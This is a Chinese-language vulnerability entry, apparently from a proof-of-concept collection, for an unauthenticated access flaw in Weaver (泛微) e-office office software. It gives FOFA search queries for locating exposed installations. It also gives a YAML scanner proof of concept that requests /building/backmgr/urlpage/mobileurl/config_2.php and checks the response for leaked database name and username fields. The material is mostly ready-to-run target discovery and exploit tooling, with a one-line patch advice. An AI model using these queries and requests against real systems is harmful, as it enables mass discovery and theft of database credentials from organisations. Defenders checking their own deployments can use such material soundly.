

## 泛微e-office 未授权访问

## fofa
```
(body="login.php"&&body="eoffice")||body="/general/login/index.php"
icon_hash="1578525679"
```

## POC  yaml格式
```
detail:
  ID: 5285
  Author: 匿名作者
  Name: 泛微e-office 未授权访问
  Description: 泛微e-office是一种企业办公自动化软件解决方案，由中国的泛微网络科技股份有限公司开发和提供。它旨在帮助企业提高办公效率、优化业务流程和信息管理。泛微e-office
    存在未授权访问，攻击者可以访问页面获取敏感信息。
  Identifier:
    DVB: DVB-2023-5285
  VulnClass:
  - 认证绕过/未认证
  Category:
  - 应用服务
  Manufacturer: 泛微
  Product: e-office
  Type: 1
  Status: 1
  Scanable: 1
  Level: 2
  DisclosureDate: '2023-10-18'
  Is0day: false
  IncludeExp: false
  Weakable: false
  IsXc: false
  IsCommon: false
  IsCallBack: false
  Condition: (body="login.php"&&body="eoffice")||body="/general/login/index.php"
  Solutions:
  - 请关注厂商的修复版本，并及时更新到最新版本.
poc:
  relative: req0
  session: false
  requests:
  - method: GET
    timeout: 10
    path: /building/backmgr/urlpage/mobileurl/config_2.php
    headers:
      User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like
        Gecko) Chrome/83.0.2597.132 Safari/537.36
    follow_redirects: true
    matches: (code.eq("200") && body.contains("数据库名") && body.contains("用户名"))
```


## 漏洞复现
/building/backmgr/urlpage/mobileurl/config_2.php


